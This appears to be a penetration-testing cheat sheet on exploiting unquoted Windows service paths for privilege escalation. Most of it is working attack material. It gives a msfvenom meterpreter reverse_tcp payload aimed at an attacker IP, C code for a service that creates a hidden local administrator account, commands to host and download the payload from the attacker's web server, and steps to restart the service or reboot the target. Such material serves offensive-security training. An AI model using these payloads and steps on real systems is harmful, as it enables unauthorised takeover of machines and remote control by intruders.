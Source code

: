 We can use this attack when we have Write permissions to a service's main directory or subdirectories but cannot replace files within them.

Each Windows service maps to an executable file that will be run when the service is started. If the path of this file contains one or more spaces and is not enclosed within quotes, it is potentially vulnerable.
# Enumerate running services:
Powershell:
```powershell
Get-CimInstance -ClassName win32_service | Select Name,State,PathName
```
CMD one-liner:
```batch
wmic service get name,pathname |  findstr /i /v "C:\Windows\\" | findstr /i /v """
```
# Enumerate File Permissions
Check every path with spaces to see if it's writeable. 

i.e. The following example unqouted service path: C:\Program Files\My Program\My Service\service.exe will have the following paths checked by windows:
* C:\Program.exe
* C:\Program Files\My.exe
* C:\Program Files\My Program\My.exe
* C:\Program Files\My Program\My service\service.exe

Thus the following folders need to be checked for (W) permissions:
* C:\Program Files
* C:\Program Files\My Program
* C:\Program Files\My Program\My service
```batch
icacls "C:\Path"
```
# Craft and place malicious exe in service path
Generate payload with msfvenom:
```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=$(IP_ADDRESS) LPORT=$(PORT) -f exe -o service.exe
```
Or
Example malicious service to use:
```c
#include <stdlib.h>

int main ()
{
  int i;
  
  i = system ("net user dave2 password123! /add");
  i = system ("net localgroup administrators dave2 /add");
  
  return 0;
}
```
On kali, cross-compile the service:
```batch
x86_64-w64-mingw32-gcc adduser.c -o service.exe
```
# Configure webserver to host file for transfer and listener for meterpreter shell
```bash
python -m http.server 80
```
```bash
msfconsole
```
```bash
use exploit/multi/handler
```
Transfer file to target machine at the vulnerable service path:
```powershell
iwr -uri http://$(IP_ADDRESS)/service.exe -Outfile "C:\Vulnerable\Service\Path.exe"
```
# Restart service
Either restart revice manually or reboot the target (assuming the service is set to automatic startup)
```batch
net stop $SERVICE
```
```batch
net start $SERVICE
```
```batch
shutdown /r /t 0
```
